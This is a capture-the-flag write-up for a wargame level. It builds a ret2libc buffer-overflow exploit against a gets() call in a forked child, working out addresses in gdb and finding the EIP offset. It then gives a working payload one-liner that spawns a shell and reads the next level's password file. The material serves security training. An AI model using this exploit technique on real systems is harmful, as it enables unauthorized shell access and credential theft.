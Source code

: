 # level04

In this program, we have an unsafe `gets`` call used in the child process after a`fork`.
Even though the program mentions shellcode, we’re going to try something else: a **ret2libc attack**.

The concept is simple: we overwrite the return address (EIP) with the address of `system` and supply `/bin/sh` (or another command) as its argument. The attack requires:

- The address of system
- A return address (e.g., the address of exit)
- A memory location where the string /bin/sh resides

Let's find those with *gdb*. For system and exit, this is straightforward:

```bash
level04@OverRide:~$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

To locate /bin/sh in memory, we’ll search through libc:

```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Pretty aggresive I'll admit, but it's fast.
If it weren’t found, we could inject it via an environment variable.

Now we'll use our pattern generator to determine the offset at which EIP is overwritten.
Because the `gets` call happens in the child process, we need to follow the child in *gdb*:

```bash
(gdb) set follow-fork-mode child
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level04/level04

[New process 1939]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1939]
0x41326641 in ?? ()
```

This tells us that the offset to EIP is 156 bytes.

We’ll build a payload like this:

- 156 bytes of padding
- Address of `system` → `0xf7e6aed0`
- Address of `exit` → `0xf7e5eb70`
- Address of `/bin/sh` → `0xf7f897ec`

Here’s the one-liner:

```bash
(cat <(python -c 'print("a" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")') -) | ./level04
```

Let's get the flag:

```bash
level04@OverRide:~$ (cat <(python -c 'print("a" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")') -) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
<flag>
```
